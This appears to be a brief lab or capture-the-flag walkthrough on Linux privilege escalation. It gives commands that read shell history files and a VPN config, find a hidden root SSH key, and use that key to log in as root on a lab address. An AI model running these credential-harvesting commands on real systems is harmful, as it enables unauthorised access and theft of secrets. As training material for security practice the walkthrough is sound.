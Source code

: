 # Passwords & Keys

## History Files

View the contents of all the hidden history files in the user's home directory:

`cat ~/.*history | less`

## Config Files

List the contents of the user's home directory:

`ls /home/user`

Note the presence of a **myvpn.ovpn** config file. View the contents of the file:

`cat /home/user/myvpn.ovpn`

## SSH Keys

Look for hidden files & directories in the system root:

`ls -la /`

Note that there appears to be a hidden directory called **.ssh**. View the contents of the directory:

`ls -l /.ssh`

Give it the correct permissions,

`chmod 600 root_key`

`ssh -i root_key root@10.10.82.45`
